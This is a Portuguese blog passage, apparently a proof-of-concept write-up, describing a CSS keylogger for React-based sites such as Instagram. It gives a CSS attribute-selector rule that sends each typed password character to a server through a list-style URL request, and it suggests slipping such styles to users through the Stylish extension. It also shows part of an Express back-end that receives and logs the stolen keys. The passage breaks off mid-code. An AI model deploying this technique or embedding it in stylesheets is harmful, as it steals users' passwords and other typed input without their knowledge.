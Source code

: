 Sabendo da maneira como o React e o CSS funcionam, podemos criar um keylogger para sites que usam o React, como o Instagram, ou que atualizam o atributo "*value*". Definimos regras como:

```css
input[type="password"][value$="A"] {
    list-style: url("http://localhost?A");
}
```

Onde `input[type="password"]` seleciona somente `<input>`'s que possuam o atributo `type="password"`, e `[value$="A"]` seleciona somente `<input>`'s cujo atributo value [termina](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors) em `A`.

Similarmente como acontece no exemplo de JavaScript, definimos um URL para ser requisitado pelo CSS, que será nosso meio de enviar a informação para o servidor. No caso, usamos a propriedade *list-style*, que não afeta esse elemento visualmente.

Repetindo essa regra para todos os caracteres relevantes, terminamos com um arquivo com 90+ linhas de código e um resultado não muito impressionante, mas suficientemente funcional:

![Bruh](/images/2018-05-13-TQJAhby.png)

Comparado ao keylogger em JavaScript, esse é claramente mais verboso e pesado: dos 56 bytes de código adicionados ao tamanho da URL, em JavaScript, partimos para quase 5000 bytes de 'código' adicionados ao tamanho da URL repetida 90 ou mais vezes, em CSS. Além disso, estamos presos a teclas cujos caracteres podem ser inseridos no input (teclas como F5, Ctrl, Shift, Backspace, passam despercebidas), o que não ocorre em JavaScript.

Ademais (uau que palavra linda), tive um problema estranho com o keylogger em CSS: teclas repetidas não eram enviadas novamente. Então, uma senha como "banana" se torna "ban", o final "ana" não é enviado por só conter caracteres que já foram testados. Acredito que isso seja devido a alguma otimização do CSS, para que ele não tente requisitar várias vezes a mesma página. Contudo, apesar de meus — admitidamente poucos — esforços para evitar um cache e forçar uma requisição repetida, não consegui consertar esse erro.

Temos, entretanto, a pequena vantagem de que é mais fácil carregar CSS sorrateiramente do que JavaScript. Extensões como [Stylish](https://chrome.google.com/webstore/detail/fjnbnpbmkenffdnngjfgmeleoegfcffe) permitem ao usuário adicionar estilos customizados feitos por terceiros e, muitas vezes, o usuário não tem conhecimento de CSS, então não sabe o que está adicionando.
## Criando o back-end
Desenvolvi um back-end bem simples para essa aplicação, por ser somente um *proof-of-concept*. Todo o código está disponível no GitHub (links no final do artigo), mas aqui vai um resumo:

```javascript
// Primeiro, fazemos alguns requires de módulos para criarmos um servidor web simples
const app = require("express")();
const fs = require("fs");
const http = require("http").Server(app);

// Em seguida, definimos o que rola ao requisitar o URL /listen:
app.get("/listener", function(req, res) {

    // Se recebemos uma tecla no URL,
    if(req._parsedUrl.search) {
        // Definimos que a tecla, k, é o que vem após '?' no URL, usando .slice:
        let k = req._parsedUrl.search.slice(1);

        // Decodificamos, se necessário (e.x.: %5B equivale a '[')
        if(k.charAt(0) == '%' && k != "%")
            k = decodeURIComponent(k);
        // E recuperamos a tecla do espaço, que pode ser perdida na requisição
        else if(k.length == 0)
            k = " ";

        // Para maior legibilidade, todas as teclas que não têm
        // somente um caractere, envolvemos em "<" e ">"
```